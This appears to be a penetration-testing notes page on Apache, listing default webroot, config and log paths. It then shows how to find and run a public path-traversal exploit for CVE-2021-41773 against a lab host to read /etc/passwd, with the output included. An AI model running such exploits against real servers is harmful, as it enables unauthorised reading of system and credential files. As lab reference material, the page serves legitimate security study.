 # Apache

## Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>/var/www/html/</code></td></tr><tr><td><strong>Config</strong></td><td><p><strong>Primary Location (Ubuntu):</strong></p><ul><li><code>/etc/apache2/apache2.conf</code></li></ul><p><strong>Older Installs:</strong></p><ul><li><code>/etc/apache2/httpd.conf</code></li></ul><ul><li><code>/etc/httpd/conf/httpd.conf</code></li></ul><ul><li><code>/etc/httpd/httpd.conf</code> </li></ul><p><strong>CentOS/RHEL/Fedora:</strong></p><ul><li><code>/etc/httpd/conf/httpd.conf</code> </li></ul><p><strong>Source-compiled:</strong></p><ul><li><code>/opt/apache2/apache2.conf</code></li></ul><ul><li><code>/usr/local/apache2/apache2.conf</code></li></ul><p><strong>Windows:</strong></p><ul><li><code>C:\Program Files\Apache Software Foundation\Apache2.4</code></li></ul></td></tr><tr><td><strong>Logs</strong></td><td><ul><li><code>/var/log/apache2/</code> (Ubuntu)</li><li><code>/var/log/httpd/</code> (CentOS/RHEL/Fedora)</li></ul></td></tr></tbody></table>

## Versions

### 2.4.49

Vulnerable to [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/cve-2021-41773).

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}
